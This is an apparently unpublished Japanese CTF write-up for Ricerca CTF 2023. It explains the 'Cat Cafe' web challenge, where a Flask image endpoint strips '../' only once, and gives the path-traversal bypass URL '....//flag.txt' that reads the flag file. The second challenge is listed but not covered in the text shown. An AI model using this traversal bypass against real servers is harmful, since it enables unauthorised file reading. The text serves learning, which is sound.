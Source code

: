 ```yaml
---
title: "Ricerca CTF writeup - Web初心者の備忘録"
emoji: "❓"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["CTF", "Web"]
published: false
---
```


## はじめに
Ricerca CTF 2023お疲れさまでした。
運営の皆様、参加者の皆様、ありがとうございました。

さて、自分はWeb初心者、CTFほとんど初参加という形でしたが、Web問を二個解けたため、その備忘録と考察を書いていきます。

## 解いたもの

 - Cat Cafe
   - 簡単なFLI問題
 - tinyDB
   - 連想配列で作られたDBの問題

## それぞれの解説

### Cat Cafe

この問題のバックエンドはflaskです。
この問題では、まず以下のようなページが表示されます。

ここで猫の画像を右クリックで開くと、以下のようなURLに飛びます。
```url
http://cat-cafe.2023.ricercactf.com:8000/img?f=01.jpg
```

ここで問題のソースコードを読むと、ユーザのクエリを
```py
filename = flask.request.args.get("f", "").replace("../", "")
```
という形で受け付けているのがわかります。
`../`が置換されるため、`....//`というクエリを投げれば`../`に置換されます。

したがって、
```url
http://cat-cafe.2023.ricercactf.com:8000/img?f=....//flag.txt
```

というリクエストを投げると、flagが表示されます。